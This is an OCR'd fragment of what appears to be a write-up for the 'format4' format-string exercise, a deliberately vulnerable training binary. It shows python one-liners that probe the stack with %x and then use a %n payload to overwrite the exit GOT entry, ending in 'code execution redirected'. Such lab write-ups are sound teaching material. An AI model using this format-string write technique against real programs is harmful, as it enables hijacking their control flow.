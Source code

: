         -----------end------------
        find exit address is saved in 08049724,that is:exit_address=[08049724]
        尝试在0x08049724中写入0x080484b4
        python -c "print 'AAAABBBB'+'%x.'*10" | ./format4
        -----------output:------------
        AAAABBBB200.b7fd8420.bffff5c4.41414141.42424242.252e7825.78252e78.2e78252e.252e7825.78252e78.
        -------------end--------------
        python -c "print '\x24\x97\x04\x08BBBB%134513836x'+'%4\$n.'" | ./format4
        output:
        ...code execution redirected! you win



